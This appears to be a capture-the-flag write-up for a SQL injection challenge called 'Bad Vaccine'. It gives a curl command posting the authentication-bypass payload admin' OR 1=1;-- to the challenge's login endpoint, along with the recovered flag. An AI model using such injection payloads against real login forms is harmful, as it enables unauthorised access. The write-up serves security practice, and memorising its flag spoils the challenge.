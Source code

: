 # Bad Vaccine

**Challenge Type: SQL Injection**

## Challenge
Find out what are the bad vaccines and destroy them.  
http://vaccine.nypinfsecctf.tk/

## Solution
```bash
$ curl --no-progress-meter -X POST -d "username=admin' OR 1=1;--&password=username=admin' OR 1=1" https://vaccine.nypinfsecctf.tk | grep -i "NYP{.*}"

NYP{3z_sQL_iNJ3cTi0n}
```

## Ending Note
The organisers said that it's a very basic SQL Injection. And it is true as you see above.  
However, attempting to use `admin' #` will return you a Status 500 error.
